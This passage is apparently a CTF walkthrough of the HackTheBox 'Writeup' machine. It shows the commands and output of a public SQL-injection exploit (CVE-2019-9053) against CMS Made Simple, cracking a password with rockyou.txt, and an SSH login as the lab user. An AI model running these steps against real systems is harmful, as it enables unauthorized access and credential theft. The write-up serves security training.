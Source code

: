 Papers: No Result
{% endhighlight %}

Oh wow there are so many exploits! But which one do we use ? 

After some trial and error, the one that worked for me was `CMS Made Simple < 2.2.10 - SQL Injection`. Using the `--crack` option and specifying `rockyou.txt` as the wordlist,

{% highlight bash %}
$ python  /usr/share/exploitdb/exploits/php/webapps/46635.py -h
Usage: 46635.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri (ex. http://10.10.10.100/cms)
  -w WORDLIST, --wordlist=WORDLIST
                        Wordlist for crack admin password
  -c, --crack           Crack password with wordlist

$ python CVE-2019-9053.py -u http://writeup.htb/writeup --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
{% endhighlight %}

Neat ! We got the password for user `jkr`!

# user.txt

If we try to access `ssh` into `jkr`'s account using the credentials we found,

{% highlight bash %}
$ ssh jkr@writeup.htb
jkr@writeup.htb's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt
d4e4XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}


# Enumeration

As `jkr`, we need to know what processes are being runned on the machine. To do so, I will be using [pspy](https://github.com/DominicBreuker/pspy). To transfer it from my machine to this machine, I will be using `python`'s `SimpleHTTPServer` module.
